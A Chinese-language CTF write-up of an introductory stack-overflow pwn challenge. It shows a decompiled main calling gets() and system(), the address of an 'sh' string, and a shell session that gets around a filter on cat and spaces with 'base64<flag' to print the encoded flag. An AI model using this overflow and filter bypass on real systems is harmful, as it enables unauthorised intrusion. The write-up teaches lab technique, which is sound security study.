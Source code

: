 # CTFShow 36D

首先，这个域名就很秀 -> ctf.show

其次，题目质量还不错~

## PWN_签到 (344pt)
- 题目描述：
  
    > none
- 题目附件：[pwn0](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/pwn0/pwn0)
- 考察点：bof、bash
- 难度：简单

### 程序分析

`main`程序就是入门的栈溢出，还给了`system`函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+0h] [rbp-20h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  gets(&v4, 0LL);
  system("echo hello wrold!");
  return 0;
}
```

参数`sh`也给了：

```c
pwndbg> search sh
pwn0            0x601040 0x6873 /* 'sh' */
```

### 解题思路

#### 解法1

直接执行`system("sh")`的时候虽然拿到了shell，但是shell做了过滤，不能用cat和空格，于是用`base64<flag`输出flag:

```c
[*] Switching to interactive mode
[DEBUG] Received 0x79 bytes:
    "/bin/bash: line 1: unexpected EOF while looking for matching ``'\n"
    '/bin/bash: line 2: syntax error: unexpected end of file\n'
/bin/bash: line 1: unexpected EOF while looking for matching ``'
/bin/bash: line 2: syntax error: unexpected end of file
$ base64<flag
[DEBUG] Sent 0xc bytes:
    'base64<flag\n'
[DEBUG] Received 0x3d bytes:
    'ZmxhZ3tkNzVmODU0Ny1kOTZjLTQ2ZTUtYjZlOC05ZmMxYWJmYjc3MDh9Cg==\n'
ZmxhZ3tkNzVmODU0Ny1kOTZjLTQ2ZTUtYjZlOC05ZmMxYWJmYjc3MDh9Cg==
```
